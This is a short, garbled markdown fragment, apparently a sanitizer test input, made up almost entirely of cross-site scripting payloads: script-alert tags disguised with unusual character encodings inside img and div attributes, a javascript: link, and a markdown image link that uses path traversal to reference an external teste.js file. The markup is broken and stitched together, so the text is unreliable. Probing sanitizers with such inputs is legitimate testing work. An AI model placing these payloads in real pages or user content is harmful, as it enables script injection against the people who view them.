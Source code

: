 ![

<img src='¼script¾alert(¢XSS¢)¼/script¾'>
<div dir="¼script¾alert(¢XSS¢)¼/script¾">¼script¾alert(¢XSS¢)¼/script¾</div>

<A HREF="javascript:document.location">XSS</A>

](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
